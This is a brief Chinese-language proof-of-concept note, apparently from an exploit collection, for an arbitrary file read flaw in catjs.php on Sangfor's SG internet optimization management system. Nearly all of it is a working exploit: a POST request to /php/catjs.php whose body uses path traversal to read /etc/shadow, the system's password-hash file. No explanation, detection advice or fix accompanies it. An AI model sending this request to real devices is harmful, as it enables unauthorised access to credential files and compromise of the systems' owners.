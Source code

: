 # 深信服SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 深信服SG上网优化管理系统 catjs.php 任意文件读取漏洞
```
POST /php/catjs.php

[" ../../../../../../etc/shadow"]
```

